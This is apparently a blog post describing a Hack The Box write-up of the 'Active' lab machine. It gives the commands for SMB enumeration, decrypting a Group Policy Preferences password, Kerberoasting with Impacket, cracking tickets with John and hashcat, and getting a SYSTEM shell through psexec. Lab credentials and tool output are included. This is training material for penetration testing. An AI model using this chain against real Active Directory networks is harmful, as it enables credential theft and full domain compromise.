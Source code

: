 ```yaml
---
layout: post
title:  "HTB: Active"
date:   2023-10-04 09:19:20 +0700
tags: [htb,pentesting,ctf]
categories: jekyll update
usemathjax: true
---
```


> ## **Overview**

Active was an example of an easy box that still provided a lot of opportunity to learn. The box was centered around common vulnerabilities associated with Active Directory. There’s a good chance to practice SMB enumeration. It also gives the opportunity to use Kerberoasting against a Windows Domain, which, if you’re not a pentester, you may not have had the chance to do before.

> ## **Enumeration**

### **Port Scan Results**

| IP Address | Ports Open |
| --- | --- |
| 10.10.10.100 | TCP: 53, 88, 135, 139, 389, 445, 464, 593, 636, 3268, 3269, 5722, 9389
|              | UDP: 123, 137 

### **SMB Enumeration - I**

Since this is a Windows host, Enumerating any readable shares can be really useful.

```bash
smbmap -H 10.10.10.100
```

[![image.png](https://i.postimg.cc/SNbzxzty/image.png)](https://postimg.cc/5jptPjVG)

And we see that we can only access the share *Replication.*

Connecting to the share using **smbclient**

```bash
smbclient //10.10.10.100/Replication
```

[![image.png](https://i.postimg.cc/LXrgfq93/image.png)](https://postimg.cc/sQ42CgZM)

Once we gain access to the share, we can locate a file named Groups.xml within the directory path 

```
**\active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\**
```

Upon examining this file, we will discover both a username and an encrypted password.

[![image.png](https://i.postimg.cc/9Q3p9DRF/image.png)](https://postimg.cc/crmwy4BV)

```bash
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
  <User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}">
    <Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/>
  </User>
</Groups>
```

### **GPP Passwords**

Whenever a new Group Policy Preference (GPP) is created, there’s an 
xml file created in the SYSVOL share with that config data, including 
any passwords associated with the GPP. For security, Microsoft AES 
encrypts the password before it’s stored as cpassword. But then Microsoft [published the key](https://msdn.microsoft.com/en-us/library/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be.aspx) on MSDN!

Microsoft issued a patch in 2014 that prevented admins from putting 
passwords into GPP. For more 
details, check out this [AD Security post](https://adsecurity.org/?p=2288).

**Decrypting GPP** 

a tool called "gpp-decrypt" that can be utilized for decrypting GPP (Group Policy Preferences) passwords.

[![image.png](https://i.postimg.cc/HnsNfV4C/image.png)](https://postimg.cc/1n2MFRjW)

```bash
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
GPPstillStandingStrong2k18
```

And we got the password **GPPstillStandingStrong2k18**.

### **SMB Enumeration - II**

With a username and password, I can access 3 more shares

There is a Users share that looks interesting

```bash
smbmap -H 10.10.10.100 -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18
[+] Finding open SMB ports....
[+] User SMB session establishd on 10.10.10.100...
[+] IP: 10.10.10.100:445        Name: 10.10.10.100                                      
        Disk                                                    Permissions
        ----                                                    -----------
        ADMIN$                                                  NO ACCESS
        C$                                                      NO ACCESS
        IPC$                                                    NO ACCESS
        NETLOGON                                                READ ONLY
        Replication                                             READ ONLY
        SYSVOL                                                  READ ONLY
        Users                                                   READ ON
```

Connecting to the SMB share using **smbclient**

```bash
smbclient //10.10.10.100/Users -U active.htb\\SVC_TGS%GPPstillStandingStrong2k18
```

And that is enough to get user.txt

> ## Initial Access – Kerberoasting

**Vulnerability Explanation:** Kerberoasting is a technique that allows an attacker to steal the KRB_TGS ticket, that is encrypted with RC4, to brute force application services hash to extract its password.

**Vulnerability Fix:** [Consider using Group Managed Service Accounts](https://docs.microsoft.com/en-us/windows-server/security/group-managed-service-accounts/group-managed-service-accounts-overview) rather than service accounts with static passwords . [Consider upgrading to an Active Directory Domain or forest level](https://adsecurity.org/?p=3377) which supports advanced Kerberos armoring. More information [here](https://www.lepide.com/blog/how-to-prevent-kerberoasting-attacks/)

**Severity: [High](https://capec.mitre.org/data/definitions/509.html)**

**Steps to reproduce the attack:** Since we already possess credentials, we'll use the "GetUserSPNs.py" script from Impacket. This script will enable us to retrieve a list of service usernames linked to regular user accounts and obtain a ticket that I can attempt to crack.

**Proof of Concept**


```bash
GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS -save -outputfile GetUserSPNs.out
```

It also gives me the ticket, which I can try to brute force decrypt to get the user’s password:

**Cracking the ticket**

With John

```bash
./john admin.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

If youre facing errors, make sure you use the [jumbo version of john](https://github.com/magnumripper/JohnTheRipper).

With Hashcat

```bash
$ hashcat -m 13100 -a 0 GetUserSPNs.out /usr/share/wordlists/rockyou.txt --force
```

And we got the administrator password : **Ticketmaster1968**

> ##  Administrator Access

As we already have admin creds through kerberoasting, we can get the system shell using psexec.py

```powershell
psexec.py active.htb/administrator@10.10.10.100
Impacket v0.9.18-dev - Copyright 2002-2018 Core Security Technologies

Password:
[*] Requesting shares on 10.10.10.100.....
[*] Found writable share ADMIN$
[*] Uploading file dMCaaHzA.exe
[*] Opening SVCManager on 10.10.10.100.....
[*] Creating service aYMa on 10.10.10.100.....
[*] Starting service aYMa.....
[!] Press help for extra shell commands
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

## Have any questions
Do you have any questions? Feel free to reach out to me on [twitter](https://twitter.com/rach1tarora) or on [LinkedIn](https://www.linkedin.com/in/rach1tarora/).
